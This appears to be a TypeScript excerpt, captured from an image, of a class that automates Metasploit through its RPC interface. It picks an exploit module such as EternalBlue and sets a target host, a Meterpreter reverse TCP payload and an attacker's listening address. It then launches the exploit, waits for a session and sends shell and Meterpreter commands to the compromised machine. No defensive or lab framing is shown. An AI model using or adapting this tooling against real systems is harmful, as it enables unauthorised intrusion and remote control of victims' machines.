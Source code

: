 ```typescript
  async executeExploit(config: {
    exploit: string;          // 'exploit/windows/smb/ms17_010_eternalblue'
    target: string;           // '192.168.1.100'
    payload: string;          // 'windows/x64/meterpreter/reverse_tcp'
    lhost: string;            // Attacker IP
    lport: number;            // Attacker port
  }): Promise<Session> {

    // 1. Select exploit module
    await this.rpc.call('module.use', 'exploit', config.exploit);

    // 2. Configure target
    await this.rpc.call('module.options', {
      RHOSTS: config.target,
      PAYLOAD: config.payload,
      LHOST: config.lhost,
      LPORT: config.lport
    });

    // 3. Execute exploit
    console.log('[Metasploit] Executing exploit...');
    const jobId = await this.rpc.call('module.execute', 'exploit', config.exploit);

    // 4. Wait for session
    const session = await this.waitForSession(30000); // 30 second timeout

    if (!session) {
      throw new Error('Exploit failed - no session established');
    }

    console.log(`[Metasploit] Session ${session.id} opened`);

    return session;
  }

  async executeCommand(sessionId: number, command: string): Promise<string> {
    const result = await this.rpc.call('session.shell_write', sessionId, command + '\n');
    await this.sleep(1000); // Wait for command execution
    const output = await this.rpc.call('session.shell_read', sessionId);
    return output;
  }

  async meterpreterCommand(sessionId: number, command: string): Promise<any> {
    // For Meterpreter sessions, use API directly
    return await this.rpc.call('session.meterpreter_write', sessionId, command);
  }

  async listSessions(): Promise<Session[]> {
    const sessions = await this.rpc.call('session.list');
    return Object.values(sessions);
  }

  async closeSession(sessionId: number): Promise<void> {
    await this.rpc.call('session.stop', sessionId);
  }
}
```
